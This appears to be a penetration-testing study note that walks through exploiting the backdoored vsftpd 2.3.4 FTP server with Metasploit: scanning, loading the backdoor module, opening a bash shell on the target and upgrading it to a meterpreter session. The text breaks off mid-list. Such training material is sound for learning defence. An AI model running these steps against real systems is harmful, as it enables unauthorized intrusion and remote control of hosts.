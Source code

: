
### Exploiting a vulnerable FTP server 

- port 21 - facilitate file sharing between server and clients 
- transfer files to and from the directory of a web server 
- vsftpd is an FTP server for Unix-like systems including Linux systems and the default FTP server for ubuntu, CentOS and Fedora 
- vsftpd V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through supply chain attack.

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) perform service detection, operating detection and syn scan: `db_nmap -sS -sV -O ip `
6) `search vsftpd `
7) `use exploit/unix/ftp/vsftpd_234_backdoor `
8) open bash terminal on target system: ` /bin/bash -i `
9) upgrade session to meterpreter session (put other session in background)
	1) `search shell_to_meterpreter` (will upgrade current shell session to meterpreter session)
	2) `use post/multi/manage/shell_to_meterprete`r (this is a post module so you can only use it when you have an active session on the target system)
	3) ..

.. -\/- .. 
 
